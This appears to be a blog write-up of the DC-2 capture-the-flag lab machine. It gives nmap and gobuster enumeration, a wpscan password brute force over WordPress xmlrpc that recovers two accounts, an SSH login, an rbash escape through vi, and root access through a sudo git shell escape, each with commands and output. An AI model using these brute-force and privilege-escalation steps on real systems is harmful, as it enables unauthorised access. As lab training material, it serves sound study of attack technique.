 ```yaml
---
layout: post
author: H4
---
```


# PG VULNHUB DC-2
[Details](https://www.vulnhub.com/entry/dc-2,311/)
## enumeration
Performing a simple `nmap` scan to identify the attack surface.

### nmap
```bash
nmap -Pn -p80,7744 -sV  192.168.239.194 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-08 04:31 EDT
Nmap scan report for dc-2 (192.168.239.194)
Host is up (0.026s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.10 ((Debian))
7744/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u7 (protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.37 seconds
```

### gobuster
Using `gobuster` to look for hidden files on the identified web server.

```bash
gobuster dir -u http://dc-2/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt -t 10 -x php -b 404,403
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://dc-2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt
[+] Negative Status codes:   403,404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
2022/05/08 03:59:37 Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 301) [Size: 0] [--> http://dc-2/]
/xmlrpc.php           (Status: 405) [Size: 42]                  
/wp-login.php         (Status: 200) [Size: 2165]                
/readme.html          (Status: 200) [Size: 7413]                
/license.txt          (Status: 200) [Size: 19935]               
/wp-config.php        (Status: 200) [Size: 0]                   
/wp-trackback.php     (Status: 200) [Size: 135]                 
/wp-settings.php      (Status: 500) [Size: 0]                   
/wp-cron.php          (Status: 200) [Size: 0]                   
/wp-blog-header.php   (Status: 200) [Size: 0]                   
/wp-links-opml.php    (Status: 200) [Size: 215]                 
/wp-load.php          (Status: 200) [Size: 0]                   
/wp-signup.php        (Status: 302) [Size: 0] [--> http://dc-2/wp-login.php?action=register]
/wp-activate.php      (Status: 302) [Size: 0] [--> http://dc-2/wp-login.php?action=register]
                                                                                            
===============================================================
2022/05/08 04:01:42 Finished
===============================================================
```

It seems that `wordpress` is installed on the web server.  
`wpscan` reveals that `wordpress` version `4.7.10` is used an outdated.

---

## exploitation
### wordpress
Looking for exploits against `wordpress 4.7.10`

```bash
searchsploit wordpress Core 4.7
---------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                |  Path
---------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
WordPress Core 4.7.0/4.7.1 - Content Injection                                                                                                | linux/webapps/41223.py
WordPress Core 4.7.0/4.7.1 - Content Injection (Ruby)                                                                                         | linux/webapps/41224.rb
WordPress Core < 4.7.1 - Username Enumeration                                                                                                 | php/webapps/41497.php
WordPress Core < 4.7.4 - Unauthorized Password Reset                                                                                          | linux/webapps/41963.txt
WordPress Core < 4.9.6 - (Authenticated) Arbitrary File Deletion                                                                              | php/webapps/44949.txt
WordPress Core < 5.2.3 - Viewing Unauthenticated/Password/Private Posts                                                                       | multiple/webapps/47690.md
WordPress Core < 5.3.x - 'xmlrpc.php' Denial of Service                                                                                       | php/dos/47800.py
---------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```
- `WordPress Core < 5.2.3 - Viewing Unauthenticated/Password/Private Posts ` looks promising  
- `http://dc-2/?static=1&order=asc` reveals the "secret" content  
  
Site gives the hint that `cewl` might be a good idea. `cewl` generates custom wordlists it scrapes from the website you provide.  

```bash
cewl -d 2 -w ourWordlist.txt "http://dc-2/?static=1&order=asc"
```

Then we are using `wpscan` to identify accounts on the `wordpress` site and perform a brute force attack with the generated wordlist.  
We are using the xmlrpc endpoint here instead of the "normal" login page, because in this way we can perform multiple login attemps with one xml-rpc call.

```bash
wpscan --url http://dc-2/ --password-attack xmlrpc -P /home/void/Documents/web200/playgrounds/dc2/ourWordlist.txt                                                      
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.18
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://dc-2/ [192.168.239.194]
[+] Started: Sun May  8 04:16:03 2022
...
[+] Performing password attack on Xmlrpc against 3 user/s
[SUCCESS] - jerry / adipiscing 
[SUCCESS] - tom / parturient                                                                                                                                                    
Trying admin / Powered Time: 00:01:23 <=====================================================                                                > (780 / 1458) 53.49%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: jerry, Password: adipiscing
 | Username: tom, Password: parturient
...
```
Yay! we got two valid credentials for the `wordpress` instance.  
Unfortunately both accounts cannot be used to upload a `plugin` or escalate to a `rce`.  

### ssh
- on port 7744 there is a `SSH` service
- logging in with `tom:parturient` works

```bash
ssh tom@dc-2 -p 7744                                                                                                                                                  
The authenticity of host '[dc-2]:7744 ([192.168.239.194]:7744)' can't be established.
ED25519 key fingerprint is SHA256:JEugxeXYqsY0dfaV/hdSQN31Pp0vLi5iGFvQb8cB1YA.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[dc-2]:7744' (ED25519) to the list of known hosts.
tom@dc-2's password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
tom@DC-2:~$ ls
flag3.txt  local.txt  usr
tom@DC-2:~$ cat local.txt
-rbash: cat: command not found
```

`rbash` is in place and the program `cat` cannot be found.  
`rbash` is a restricted shell which is used to 'jail' a user, so he cannot execute certain commands and act as a normal user.

### escaping rbash
```bash
tom@DC-2: vi
:set shell=/bin/bash
:shell
tom@DC-2:~$ cat local.txt
bash: cat: command not found
```
Yay! We escaped `rbash` but cat is still not available.

### cat alternative to get the first flag
```bash
tom@DC-2:~$ less local.txt
```
-> `9******************************c`

### privilege escalation
Try to identify if the user `tom` is able to execute commands as a super user.

```bash
echo $PATH
/home/tom/usr/bin
export PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
tom@DC-2:/var/www/html$ sudo -l
[sudo] password for tom: 
Sorry, user tom may not run sudo on DC-2.
```

As `tom` is not allowed to do so, we are switching to the other user we know and check if this one is able to perform commands as a super user.

```
tom@DC-2:~$ su jerry
Password: 
jerry@DC-2:/home/tom$ sudo -l
Matching Defaults entries for jerry on DC-2:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jerry may run the following commands on DC-2:
    (root) NOPASSWD: /usr/bin/git
```

Checking [gtfobins](https://gtfobins.github.io/) to identify how we can exploit `git` to gain root access

```
sudo git -p help config
...
!/bin/sh
# cd /root
# ls
final-flag.txt  proof.txt
# less proof.txt
6******************************7
```
-> `6******************************7`  
  
Pwned! <@:-)
